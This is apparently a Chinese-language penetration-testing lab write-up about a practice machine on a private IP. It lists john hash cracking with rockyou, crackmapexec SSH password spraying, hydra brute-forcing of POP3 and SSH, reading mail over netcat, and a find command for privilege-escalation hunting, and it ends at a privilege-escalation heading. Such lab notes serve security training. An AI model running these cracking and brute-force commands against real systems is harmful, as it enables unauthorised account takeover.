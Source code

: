 

```
访问Twitter 得到 泄露的邮箱与密码
查看hash类型
hash-identifier 8a28a94a588a95b80163709ab4313aa4 
md5的哈希
john解密 用户和密码 他们的对应关系不知道要交叉测试
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt leaked_data

awk666

cat info | awk -F ' ' '{print $2}' | awk -F '@' '{print $1}'| awk -F '(' '{print $2}'

ssh 尝试
crackmapexec ssh 192.168.1.106 -u users -p passwords --continue-on-success

110端口
hydra -L users -P passwords -f 192.168.1.106 pop3
hydra -L users -p S1ck3nBluff+secureshell ssh://192.168.1.106 


启动pop3
nc 192.168.1.106 110
user 用户名
pass 密码
list 列出邮件序号
retr 序号 看指定序号邮件的内容

```

![image-20230528095058862](https://cdn.staticaly.com/gh/Mrship12138/NotePic@main/img/202305280950052.png)

```
Return-Path:  发送失败信息发个谁
X-Original-To: 收件人
Delivered-To: 收件人
To: 抄送

```

![image-20230528101218943](https://cdn.staticaly.com/gh/Mrship12138/NotePic@main/img/202305281012105.png)

![image-20230528101230573](https://cdn.staticaly.com/gh/Mrship12138/NotePic@main/img/202305281012693.png)



查找当前用户组可以操作哪些文件 proc路径下可以忽略

```
find / -group users -type f 2>/dev/null
```



ssh提权

